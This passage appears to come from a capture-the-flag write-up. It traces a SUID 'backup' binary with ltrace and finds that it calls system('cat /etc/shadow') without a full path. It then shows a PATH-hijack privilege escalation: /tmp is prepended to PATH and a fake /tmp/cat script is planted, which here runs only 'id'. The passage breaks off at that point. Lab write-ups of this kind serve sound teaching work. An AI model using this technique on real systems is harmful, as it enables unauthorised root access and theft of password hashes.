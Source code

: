 It did end up exhausting `rockyout.txt` without a match in about 10
minutes.

Continuing on, I'll look at the binary itself. I could open the binary
in `gdb` (as I take the presence of Peda to be a hint), but first I'll
run it with `ltrace` (I'll use `gdb` in [Beyond Root](#re-backup)). This
will show all the library calls made by the binary:



    mitsos@LazyClown:~$ ltrace ./backup 
    __libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
    system("cat /etc/shadow"cat: /etc/shadow: Permission denied
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                       = 256
    +++ exited (status 0) +++



The first thing it does in `main` is call `system("cat /etc/shadow")`.
This gets permissions denied because `ltrace` drops permissions on SUID
binaries, so it's not actually running as root, but it would be outside
of `ltrace`.

### Path Hijack

The vulnerability here is that `cat` is called without a full path,
which means that the shell is looking at each directory in the `$PATH`
environment variable for an executable named `cat` until it finds one,
and then runs it. By default, `$PATH` is:



    mitsos@LazyClown:~$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games



But I can change the path to add `/tmp` at the front of the list:



    mitsos@LazyClown:~$ PATH=/tmp:$PATH
    mitsos@LazyClown:~$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games



Now `/tmp` will be the first directory checked.

I'll drop a simple script into `/tmp/cat`. For demonstration, I'll have
it run `id`:



    #!/bin/sh

    id


